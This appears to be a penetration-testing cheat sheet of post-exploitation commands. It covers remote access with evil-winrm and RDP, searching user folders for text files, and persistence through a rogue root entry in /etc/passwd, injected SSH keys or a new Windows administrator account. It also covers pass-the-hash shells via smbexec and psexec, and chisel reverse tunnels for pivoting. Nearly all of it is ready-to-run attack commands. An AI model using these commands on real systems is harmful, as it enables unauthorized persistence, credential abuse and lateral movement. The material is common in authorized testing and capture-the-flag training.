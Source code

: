 ### Useful Windows access
When you have Admin creds, try winrm and rdp for shell/GUI access
```bash
# winrm
evil-winrm -i IP -u USER -p PASS
# rdp, /d is optional
xfreerdp /v:IP /u:USER /p:PASS /d:DOMAIN
```

### Enumerate certain directory and find all txt files
```powershell
gci -force -recursive -Path 'C:\users\' -include *.txt
```

### Persistent foothold
After gaining the the system/root access of the system.
Adding another root/administrator user to the system for future access so that you don't have to hack into again.
#### Linux
```bash
# 1. Add an entry to /etc/passwd manually
openssl passwd YOUR_PW #Generate the password hash
echo "Fakeuser:${HASH}:0:0:root:/root:/bin/bash" >> /etc/passwd
# Use this profile to access as root
# 2. SSH key injection
# Use existing ssh key or create one
ssh-keygen # to create ssh key
cat id_rsa.pub # copy the content then return to the target
echo "PUB_KEY_CONTENT" >> ~/.ssh/authorized_keys
```
#### Windows
```powershell
# 1. Inject admin group user
net user tmp PW /add
net localgroup Administrator tmp /add
# Then use winrm/rdp to access if available
# 2. If you own the admin creds/hash
# smbexec.py for administrator shell
smbexec.py DOMAIN/ADMIN_USERNAME:ADMIN_PASSWORD@TARGET_IP
smbexec.py DOMAIN/ADMIN_USERNAME@TARGET_IP -hashes NTHASH:NTHASH
# psexec.py for system shell
psexec.py DOMAIN/ADMIN_USERNAME:ADMIN_PASSWORD@TARGET_IP
psexec.py DOMAIN/ADMIN_USERNAME@TARGET_IP -hashes NTHASH:NTHASH
```

## 6. Pivoting and port forwarding
Pivoting and port forwarding allow you to access internal applications or hosts
### Chisel
```bash
# in Kali
./chisel server --reverse --port 9001 --socks5
```
|     |     |
| --- | --- |
| chisel client SERVER_IP:9001 R:80:127.0.0.1:80 | Listen on Kali 80, forward to localhost port 80 on client |
| chisel client SERVER_IP:9001 R:4444:ANOTHER_HOST:80 | Listen on Kali 4444, forward to ANOTHER_HOST(not the connected one) port 80 |
| chisel client SERVER_IP:9001 R:socks | Create SOCKS5 listener on 1080 on Kali, proxy through client, add `socks5 127.0.0.1 1080` to `/etc/proxychains4.conf` |
